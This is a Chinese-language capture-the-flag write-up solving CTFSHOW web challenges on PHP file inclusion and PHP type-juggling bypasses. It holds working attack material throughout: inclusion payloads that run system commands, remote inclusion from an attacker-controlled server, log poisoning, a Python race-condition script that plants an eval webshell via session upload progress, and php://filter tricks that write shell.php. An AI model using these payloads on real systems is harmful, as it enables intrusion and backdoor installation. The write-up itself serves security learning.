








+++
date = '2024-12-22T00:27:55+08:00'
title = 'CTFSHOW-文件包含-Writeup'
categories = ["Writeup"]
tags = ["writeup", "ctf", "Web"]

+++

> 以PHP为例,常用的文件包含函数有以下四种include(),require(),include_once(),require_once()

#### Web78

php伪协议

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 10:52:43
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-16 10:54:20
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['file'])){
    $file = $_GET['file'];
    include($file);
}else{
    highlight_file(__FILE__);
}
```

payload:

> ?file=data://text/plain,<?php system("cat flag.php")?>

查看源代码，得到flag


#### web79

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:10:14
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-16 11:12:38
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```

这题相对于上一题会将file中的php替换为???

我们可以通过base64进行绕过

```
?file=data://text/plain;base64,PD9waHAgCnN5c3RlbSgidGFjIGZsYWcucGhwIikKPz4=
```

or

```
?file=data://text/plain,<?=system('tac flag*');?> 

?file=data://text/plain,<?Php echo `tac f*`;?>
```

or

远程加载

> 加载robots.txt，发现可以回显
>
> 在自己vps上创建1.txt，内容如下 `<?php system("tac flag.php");?>` 
>
> 起一个http服务，加载 `url/?file=http://x.x.x.x:7001/1.txt`

or

input协议 大小写绕过

payload: 

```
POST /?file=Php://input HTTP/1.1

<?Php system("cat flag.php");?>
```

#### web80

```php
<?php
 
/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-16 11:26:29
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
 
*/
 
 
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```

日志包含

写入一句话木马


连webshell工具或者直接get传参

```
?file=/var/log/nginx/access.log&2=system('ls /var/www/html');phpinfo();

?file=/var/log/nginx/access.log&2=system('tac /var/www/html/fl0g.php');phpinfo();
```

Or

input协议 大小写绕过

payload: 

```
POST /?file=Php://input HTTP/1.1

<?Php system("cat flag.php");?>
```


#### web81

```php
<?php
 
/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-16 15:51:31
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
 
*/
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```

同上web80


#### web82

条件竞争

poc

```php
import requests
import io
import threading

url='http://9a77fcb3-6f3c-4bd6-a247-07bfe6766509.challenge.ctf.show:8080/'
sessionid='ctfshow'
data={
	"1":"file_put_contents('/var/www/html/jiuzhen.php','<?php eval($_POST[3]);?>');"
}
#这个是访问/tmp/sess_ctfshow时，post传递的内容，是在网站目录下写入一句话木马。这样一旦访问成功，就可以蚁剑连接了。
def write(session):#/tmp/sess_ctfshow中写入一句话木马。
	fileBytes = io.BytesIO(b'a'*1024*50)
	while True:
		response=session.post(url,
			data={
			'PHP_SESSION_UPLOAD_PROGRESS':'<?php eval($_POST[1]);?>'
			},
			cookies={
			'PHPSESSID':sessionid
			},
			files={
			'file':('ctfshow.jpg',fileBytes)
			}
			)

def read(session):#访问/tmp/sess_ctfshow，post传递信息，在网站目录下写入木马。
	while True:
		response=session.post(url+'?file=/tmp/sess_'+sessionid,data=data,
			cookies={
			'PHPSESSID':sessionid
			}
			)
		resposne2=session.get(url+'jiuzhen.php');#访问木马文件，如果访问到了就代表竞争成功
		if resposne2.status_code==200:了
			print('++++++done++++++')
		else:
			print(resposne2.status_code)

if __name__ == '__main__':

	evnet=threading.Event()
	#写入和访问分别设置5个线程。
	with requests.session() as session:
		for i in range(5):
			threading.Thread(target=write,args=(session,)).start()
		for i in range(5):
			threading.Thread(target=read,args=(session,)).start()

	evnet.set()
```


getshell



直接查flag

**利用条件**

> 1. 存在文件包含漏洞
> 2. 知道session文件存放路径，可以尝试默认路径
> 3. 具有读取和写入session文件的权限

这两个脚本理论上适用于`web82-web86`

#### web83

web83的开篇设置了session_unset();session_destroy();

> session_unset()：释放当前在内存中已经创建的所有$_SESSION变量，但不删除session文件以及不释放对应的。
> session_destroy()：删除当前用户对应的session文件以及释放sessionid，内存中的$_SESSION变量内容依然保留。

就是释放和清除了前面所有session变量和文件，但是我们的解题思路是竞争上传那一瞬间创建的session，所以不影响。

#### web84

加上了一个`system(rm -rf /tmp/*);`，但是因为本来session.upload_progress.cleanup = on，就会清空对应session文件中的内容，这里加上删除，对竞争的影响不大。（但是可能需要增加一些线程）

#### web85

添加了一个内容识别，如果有<就die，依旧可以竞争。

#### web86

dirname(__FILE__)表示当前文件的绝对路径。set_include_path函数,是用来设置include的路径的，就是include()可以不提供文件的完整路径了。
include文件时,当包含路径既不是相对路径，也不是绝对路径时(如:include(“test.php”))，会先查找include_path所设置的目录。
脚本里用的是完整路径，不影响竞争。

> web82-86：参考https://blog.csdn.net/m0_48780534/article/details/125410757

#### web87

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-16 21:57:55
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

if(isset($_GET['file'])){
    $file = $_GET['file'];
    $content = $_POST['content'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    $file = str_replace(".", "???", $file);
    file_put_contents(urldecode($file), "<?php die('大佬别秀了');?>".$content);

    
}else{
    highlight_file(__FILE__);
}
```

> 使用 `file_put_contents` 函数将经过处理后的内容写入到文件中。写入的内容是先拼接了一个 `<?php die('大佬别秀了');?>` 字符串,用于在后续如果有人直接访问写入后的文件时，防止文件内容被直接执行而显示一些提示信息，然后再拼接上从 `$_POST` 中获取的 `$content` 变量的值。

这道题需要用到php://filter

##### php://filter的使用 

原文：[谈一谈php://filter的妙用 | 离别歌](https://www.leavesongs.com/PENETRATION/php-filter-magic.html)

php://filter之前最常出镜的地方是XXE。由于XXE漏洞的特殊性，我们在读取HTML、PHP等文件时可能会抛出此类错误`parser error : StartTag: invalid element name` 。其原因是，PHP是基于标签的脚本语言，`<?php ... ?>`这个语法也与XML相符合，所以在解析XML的时候会被误认为是XML，而其中内容（比如特殊字符）又有可能和标准XML冲突，所以导致了出错。

那么，为了读取包含有敏感信息的PHP等源文件，我们就要先将“可能引发冲突的PHP代码”编码一遍，这里就会用到php://filter。

php://filter是PHP语言中特有的协议流，作用是作为一个“中间流”来处理其他流。比如，我们可以用如下一行代码将POST内容转换成base64编码并输出：

```
readfile("php://filter/read=convert.base64-encode/resource=php://input");
```

如下：

[](https://www.leavesongs.com/content/uploadfile/201607/0f851469385893.png)

所以，在XXE中，我们也可以将PHP等容易引发冲突的文件流用php://filter协议流处理一遍，这样就能有效规避特殊字符造成混乱。

如下，我们使用的是`php://filter/read=convert.base64-encode/resource=./xxe.php`

[](https://www.leavesongs.com/content/uploadfile/201607/693b1469385893.png)

------


回归正题

我们审一下这道题目的代码

相比上一道题这题增加了一个post参数，且会将传入的参数进行拼接后写入文件

```php
 $content = $_POST['content'];
 file_put_contents(urldecode($file), "<?php die('大佬别秀了');?>".$content);
```

这道题在`$content`和`$file`之间拼接了一个<?php die('大佬别秀了');?>，导致即使我们成功写入一句话，也执行不了

我们如何绕过这个die呢？

其实我们可以通过php://filter流的base64-decode方法来去除这个die

因为php在解码base64编码的时候会先将不属于base64中的字符去除，再进行转换，如下

```php
<?php
$_GET['txt'] = preg_replace('|[^a-z0-9A-Z+/]|s', '', $_GET['txt']);
base64_decode($_GET['txt']);
```

所以，我们可以使用 php://filter/write=convert.base64-decode 来首先对其解码。在解码的过程中，字符<、?、;、>、、(、) 、'空格等字符不符合base64编码的字符范围将被忽略，所以最终被解码的字符仅有“phpdie”和我们传入的其他字符。

`”phpdie“`一共6个字符，由于base64算法解码时是4个byte一组，所以给他增加2个“a”一共8个字符。这样，"phpdie"被正常解码，而后面我们传入的webshell的base64内容也被正常解码。

同时由于会对传入的file进行url解码，所以需要对传入的file进行两次url编码

> warning!!!url编码需要连同英文字符一起进行转换，可以借助hackbar强制进行转换（找了很久）

poc:

```
原文：file=php://filter/write=convert.base64-decode/resource=shell.php

file=%25%37%30%25%36%38%25%37%30%25%33%61%25%32%66%25%32%66%25%36%36%25%36%39%25%36%63%25%37%34%25%36%35%25%37%32%25%32%66%25%37%37%25%37%32%25%36%39%25%37%34%25%36%35%25%33%64%25%36%33%25%36%66%25%36%65%25%37%36%25%36%35%25%37%32%25%37%34%25%32%65%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34%25%32%64%25%36%34%25%36%35%25%36%33%25%36%66%25%36%34%25%36%35%25%32%66%25%37%32%25%36%35%25%37%33%25%36%66%25%37%35%25%37%32%25%36%33%25%36%35%25%33%64%25%37%33%25%36%38%25%36%35%25%36%63%25%36%63%25%32%65%25%37%30%25%36%38%25%37%30
```

```
原文：content=<?php system('cat fl0g.php');?>

content=aaPD9waHAgc3lzdGVtKCdjYXQgZmwwZy5waHAnKTs/Pg==
```

访问shell.php,得到flag

其实还可以通过其他编码来进行绕过如rot13

更多[file_put_content和死亡·杂糅代码之缘 - 先知社区](https://xz.aliyun.com/t/8163?time__1311=n4%2BxnD0Dc7GQ0%3DDCDgADlhjm57IKvq0Ivo%2BimK%3Dx#toc-3)

#### web88

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-17 02:27:25
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

 */
if(isset($_GET['file'])){
    $file = $_GET['file'];
    if(preg_match("/php|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\+|\=|\./i", $file)){
        die("error");
    }
    include($file);
}else{
    highlight_file(__FILE__);
}
```

这题过滤了很多字符但是没有过滤:、/、;

poc

```
?file=data://text/plain;base64,PD89c3lzdGVtKCJ0YWMgZmwwZy5waHAiKTsgPz4
```


#### web116

拿到题目环境，发现是个视频，下载视频用binwalk扫一下


提取图片，发现是源码


直接get传参读flag

```
?file=flag.php
```


#### web117

web87的后续 死亡绕过

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: yu22x
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-01 18:16:59

*/
highlight_file(__FILE__);
error_reporting(0);
function filter($x){
    if(preg_match('/http|https|utf|zlib|data|input|rot13|base64|string|log|sess/i',$x)){
        die('too young too simple sometimes naive!');
    }
}
$file=$_GET['file'];
$contents=$_POST['contents'];
filter($file);
file_put_contents($file, "<?php die();?>".$contents);
```

这题过滤了一些php的协议和转换器

但是没过滤掉filter和convert

我们可以考虑用filter搭配convert.iconv.*过滤器来构造出payload

参考文章：[详解php://filter以及死亡绕过_filter绕过过滤-CSDN博客](https://blog.csdn.net/woshilnp/article/details/117266628)

```php
<?php
                                                         ?>');
echo $enc;
?>
```

首先我们先将一句话木马从UCS-2BE转换成UCS-2LE

```
?<hp pe@av(l_$EG[T]1;)>?
```

接着构造payload将一句话木马从UCS-2LE转换回UCS-2BE，同时破坏掉<?php die();?>

效果如下


payload:

```
file=php://filter/write=convert.iconv.UCS-2LE.UCS-2BE/resource=shell.php
contents=?<hp pe@av(l_$EG[T]1;)>?
```

成功写入一句话木马，拿到flag


### php特性

> 参考网站：
>
> [php一些特性函数（ctfshow）](https://blog.csdn.net/qq_62046696/article/details/125272550)

#### web89

```php
<?php

/*
\# -*- coding: utf-8 -*-
\# @Author: h1xa
\# @Date:  2020-09-16 11:25:09
\# @Last Modified by:  h1xa
\# @Last Modified time: 2020-09-18 15:38:51
\# @email: h1xa@ctfer.com
\# @link: https://ctfer.com

*/


include("flag.php");
highlight_file(__FILE__);

if(isset($_GET['num'])){
  $num = $_GET['num'];
  if(preg_match("/[0-9]/", $num)){
    die("no no no!");
  }
  if(intval($num)){
    echo $flag;
  }
}
```

这题要用到数组绕过的特性来绕过preg_match的匹配

##### preg_match函数：

> preg_match函数是用于完成字符串的正则匹配的函数，如果找到一个匹配的，就返回1，否则就返回0。
> preg_match只能处理字符串，如果传入的值是数组的话，就会报错，从而返回false，绕过了正则匹配。

##### intval函数:

> - 定义:intval()`函数是 PHP 中的一个内置函数。它用于获取变量的整数值。其基本语法是`intval($var, $base = 10)`。其中`$var`是要转换的变量，`$base`是可选参数，用于指定进制（当`$var`是字符串时），默认是十进制。
>
> - 特性：
>
>   1.如果变量本身是整数，`intval()`函数会返回变量本身的值。
>
>   2.当变量是字符串时，`intval()`会尝试将字符串转换为整数。它会从字符串的开头提取数字部分，直到遇到非数字字符为止。
>
>   3.如果字符串以非数字字符开头，`intval()`会返回 0。
>
>   4.当第二个参数`$base`被指定时，`intval()`可以将字符串按照指定的进制转换为十进制整数。
>
> - 注意事项
>
>   1.对于浮点数，`intval()`会直接截断小数部分，而不是进行四舍五入。
>
>   2.当处理超出整数范围的值时（在 PHP 中，根据平台和配置不同，整数范围有所不同），可能会出现意外的结果。例如，在 32 位系统上，`int`类型的最大值是`2147483647`，如果`intval()`处理的值超过这个范围，可能会导致数据丢失或者不正确的转换。

这道题直接用数组绕过

payload:

```
?num[]=1
```

#### web90

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-18 16:06:11
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==="4476"){
        die("no no no!");
    }
    if(intval($num,0)===4476){
        echo $flag;
    }else{
        echo intval($num,0);
    }
}
```

设置`$base = 0`能提供一种根据字符串内容自动判断进制来进行转换的灵活方式。

这道题可以利用intval的特性和php强比较的特性

> 当变量是字符串时，`intval()`会尝试将字符串转换为整数。它会从字符串的开头提取数字部分，直到遇到非数字字符为止。


#### web91

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-18 16:16:09
# @link: https://ctfer.com

*/

show_source(__FILE__);
include('flag.php');
$a=$_GET['cmd'];
if(preg_match('/^php$/im', $a)){
    if(preg_match('/^php$/i', $a)){
        echo 'hacker';
    }
    else{
        echo $flag;
    }
}
else{
    echo 'nonononono';
}
```

这题考察的是一个正则表达式的理解和绕过

这两个正则表达式都是用来匹配字符串php的

> ##### `/^php$/im` 的含义
>
> - `^`：表示字符串的开始。
> - `php`：表示匹配字符 `php`。
> - `$`：表示字符串的结束。
> - `i`：表示不区分大小写。
> - `m`：表示多行模式（multi-line）。

要得到flag，我们需要让第一个判断为true，第二个判断为false

而第二个正则表达式与正则表达式一的区别在于他没有进行多行匹配

那我们只需要通过换行符就可以实现绕过

payload:

```
cmd=%oaphp
```

#### web92

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-18 16:29:30
# @link: https://ctfer.com

*/

include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==4476){
        die("no no no!");
    }
    if(intval($num,0)==4476){
        echo $flag;
    }else{
        echo intval($num,0);
    }
}
```

这题与90题的区别就在于这里进行的是弱类型的比较

在弱类型的比较里面我们不能通过增加字母的方式绕过，如下

```
"123aa" == 123
"123aa" === 123aa
```

我们可以通过其它方法来绕过

如通过intval函数的特性，我们可以通过输入转换成其他进制的4476来进行绕过（前面说过当base=0时会自动进行进制的转换）。

payload：

```
HEX: 0x117c //十进制前面补0x
OCT: 010574 //八进制前面补0
```

或者

官方题解

> intval()函数如果$base为0则$var中存在字母的话遇到字母就停止读取,但是e这个字母比较特殊，可以在PHP中不是科学计数法。所以为了绕过前面的==4476，我们就可以构造 4476e123

#### web93

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-18 16:32:58
# @link: https://ctfer.com

*/

include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==4476){
        die("no no no!");
    }
    if(preg_match("/[a-z]/i", $num)){
        die("no no no!");
    }
    if(intval($num,0)==4476){
        echo $flag;
    }else{
        echo intval($num,0);
    }
}
```

```
preg_match("/[a-z]/i", $num)
```

相比上一题这题增加了一个字母的匹配，让我们不能用上一题e绕过的方法和十六进制绕过的方法

但是八进制绕过依旧是可行的，因为他不包含字母

payload:

```
num=010574
```

#### web94

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-18 16:46:19
# @link: https://ctfer.com

*/

include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==="4476"){
        die("no no no!");
    }
    if(preg_match("/[a-z]/i", $num)){
        die("no no no!");
    }
    if(!strpos($num, "0")){
        die("no no no!");
    }
    if(intval($num,0)===4476){
        echo $flag;
    }
}
```

```
!strpos($num, "0")
```

这题增加了一个条件，同时判断也变成了强判定，这里的`strpos()`函数用于查找字符串在另一个字符串中首次出现的位置。

也就是这里我们需要让首位不等于0才能使这个判断为false

##### strops函数绕过：

> 对于strpos()函数，我们可以利用换行进行绕过（%0a）
> payload:?num=%0a010574
> 也可以小数点绕过
> payload：?num=4476.0
> 因为intval()函数只读取整数部分
> 还可以八进制绕过(%20是空格的url编码形式)
> payload：?num=%20010574
> ?num= 010574 // 前面加个空格
> ?num=+010574 
> ?num=+4476.0

我们选用其中一个绕过方法即可

如空格绕过

```
?num=%20010574
```

这题因为用的是强判定也可以用这种方法

```
?num=4476.0
```

这种方法就是使其变为浮点型从而使强判定为false，绕过第一个判定

#### web95

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-18 16:53:59
# @link: https://ctfer.com

*/

include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==4476){
        die("no no no!");
    }
    if(preg_match("/[a-z]|\./i", $num)){
        die("no no no!!");
    }
    if(!strpos($num, "0")){
        die("no no no!!!");
    }
    if(intval($num,0)===4476){
        echo $flag;
    }
}
```

这题和上一题的区别就是改为了弱判定

所以上一题的方法二就用不了了，我们用方法一即可

payload:

```
?num=%20010574
```

#### web96

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-18 19:21:24
# @link: https://ctfer.com

*/


highlight_file(__FILE__);

if(isset($_GET['u'])){
    if($_GET['u']=='flag.php'){
        die("no no no");
    }else{
        highlight_file($_GET['u']);
    }


}
```

我们知道./指的的是当前目录，所以直接用./绕过即可，不影响文件读取

payload:

```
?u=./flag.php
```

or

```
u=/var/www/html/flag.php
?u=php://filter/read=convert.base64-encode/resource=flag.php
```

#### web97

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-18 19:36:32
# @link: https://ctfer.com

*/

include("flag.php");
highlight_file(__FILE__);
if (isset($_POST['a']) and isset($_POST['b'])) {
if ($_POST['a'] != $_POST['b'])
if (md5($_POST['a']) === md5($_POST['b']))
echo $flag;
else
print 'Wrong.';
}
?>
```

这是一道md5强比较的题目，绕过姿势挺多

我们可以通过简单的数组绕过

```
a[]=1&b[]=2
```

虽然会报错但是能拿到flag


#### web98

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-18 21:39:27
# @link: https://ctfer.com

*/

include("flag.php");
$_GET?$_GET=&$_POST:'flag';
$_GET['flag']=='flag'?$_GET=&$_COOKIE:'flag';
$_GET['flag']=='flag'?$_GET=&$_SERVER:'flag';
highlight_file($_GET['HTTP_FLAG']=='flag'?$flag:__FILE__);

?>
```

> [CTFSHOW web入门刷题 web98-112_ctfshow web98-CSDN博客](https://blog.csdn.net/bys617120/article/details/135314637)
>
> 这道题用到了三元运算符
>
> 首先判断是否GET传入了数据，如果传入了则将POST的地址赋值给了GET
>
> 其实就是用POST替换GET
>
> 如果GET存在flag字段的值则会继续替换，最后替换成SERVER
